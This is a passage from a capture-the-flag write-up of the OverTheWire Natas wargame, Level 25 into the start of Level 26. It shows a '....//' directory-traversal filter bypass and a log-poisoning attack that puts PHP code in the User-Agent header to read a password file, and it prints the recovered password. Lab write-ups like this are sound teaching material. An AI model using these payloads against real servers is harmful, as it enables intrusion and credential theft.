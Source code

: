At first it would seem that we have to find a way to traverse to <code>/etc/natas_webpass</code> and read the password from there, however there is a check in the code to prevent us from going there. So I next looked at bypassing the LFI filter and played a bit in a PHP sandbox to see which injection would work against the filter. Finally, I was able to read the log file with this injection: <code>lang=....//....//....//....//....//tmp/natas25_6n8g6cuqkbuthmp8usvql1vej2.log</code> 

``` plain
[17.10.2015 14::02:27] Mozilla/5.0 (X11; Linux x86_64; rv:40.0) Gecko/20100101 Firefox/40.0 "Directory traversal attempt! fixing request." [17.10.2015 14::02:38] Mozilla/5.0 (X11; Linux x86_64; rv:40.0) Gecko/20100101 Firefox/40.0 "Directory traversal attempt! fixing request."
Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line 81

Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on line 82
```

Excellent, now we're getting somewhere! The next technique we'll use to get the password is a log poisoning attack. Read more [here](http://hackerforhire.com.au/apache-log-poisoning-with-local-file-inclusion/) 

If you look at the *logRequest* function you will see that it appends various information to a log file. Part of this information is under our control (the User Agent). By using the log poisoning attack, we can change the User Agent to some PHP code of our choosing, that will then get written to the log file when we do an action which should be logged. And when the server reads the log file, it will happily execute the code contained within. Let's see this in practice:

* I changed my user agent to <code><?php readfile('/etc/natas_webpass/natas26'); ?></code>

* Then I refreshed the page where I was looking at the log file and among all the logged information was also the password:

``` plain
"Directory traversal attempt! fixing request." [17.10.2015 15::56:48] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T 
```

The password is <code>oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T</code>


### Level 26

{% img center /images/overthewire/natas/natas26.png 'natas26' 'natas 26' %}

Source code:

``` php
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla
    
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }                       
      
```